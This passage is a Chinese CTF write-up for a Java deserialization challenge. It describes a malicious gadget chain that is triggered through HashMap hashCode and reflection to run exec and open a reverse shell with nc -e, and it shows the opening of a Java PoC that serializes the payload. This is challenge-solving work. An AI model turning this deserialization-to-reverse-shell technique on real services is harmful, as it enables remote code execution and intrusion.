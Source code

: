 
## [Java 反序列化] 23 第二十三章 幻境迷心·皇陨星沉(大结局)

放进 ij 反编译后发现两个求你打的函数 `WagTail`和 `ChainWagTail`，很容易能想到我们构造一条恶意狗链，利用反射 exec 反弹 shell。

但是我们很难通过单狗获得它所属的 `DogService` 从而触发 `WagTailChain`。但是，我们注意到 `DogService` 可以被序列化，于是思路就是构造一条狗放在 HashMap 里，当他被反序列化时，触发 `HashCode` 方法从而触发 `WagTail`，通过设定属性，让 `WagTail`触发我们自己构造的包含恶意狗链的 `DogService`的 `WagTailChain`方法，从而反弹 shell。

这里有一个坑，连接跳板机查看 nc 文档可知，-e 参数得放在最后面。

![image.png](../../assets/images/moectf2025wp/image_54.png)

PoC如下：

```java
package com.example.demo.Dog;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashSet;
import java.util.LinkedHashMap;
import java.util.Map;

public class PoC {
    private static String b64(Object obj) throws Exception {
        try (ByteArrayOutputStream baos = new ByteArrayOutputStream();
             ObjectOutputStream oos = new ObjectOutputStream(baos)) {
            oos.writeObject(obj);
            oos.flush();
            return Base64.getEncoder().encodeToString(baos.toByteArray());
        }
```